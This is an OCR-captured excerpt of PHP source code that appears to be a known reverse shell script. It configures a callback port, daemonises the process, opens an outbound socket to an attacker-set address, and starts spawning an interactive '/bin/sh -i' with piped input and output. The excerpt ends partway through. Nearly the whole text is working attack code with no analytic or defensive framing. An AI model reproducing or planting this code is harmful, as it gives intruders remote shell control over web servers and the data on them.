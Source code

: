 ```
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

```